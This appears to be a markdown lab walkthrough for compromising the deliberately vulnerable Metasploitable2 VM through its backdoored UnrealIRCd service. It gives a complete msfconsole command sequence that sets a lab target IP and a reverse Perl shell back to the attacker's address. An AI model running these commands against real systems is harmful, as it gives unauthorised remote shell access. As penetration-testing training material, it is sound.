

# Hack Metacploiable2 vulnarable machine: Unreal IRC with HEXchat and METASPLOIT FRAMEWORK #


### Tools need to install ###
- Hexchat
- Metasploit Framework
```
sudo apt install hexchat
```
```
sudo apt install metasploit-framework
```
### Steps ###
- Find the metsploitable2 machines IP [Click here to see details](find_ip_ms2.md).
- Check if <b> UnrealIRCd </b> (port 6667/tcp) is open with nmap.
- Let the metasploitable2 machines IP is 192.168.56.103
- Let kali/parrot ip is 192.168.56.1
- Connect with Unreal IRC with hexchat

```
hexchat
```

### 1

### 2

### 3


- After finding the version of Unreal IRC , search for exploits in metasploit framework
```
msfconsole
```
- In msfconsole, run those command
```
search unreal irc

use exploit/unix/irc/unreal_ircd_3281_backdoor

show options

set RHOSTS 192.168.56.103

set target 0

show payloads

set payload payload/cmd/unix/reverse_perl 

show options

set LHOST 192.168.56.1

set LPORT 4444

exploit

```
### Boom! you got a shell
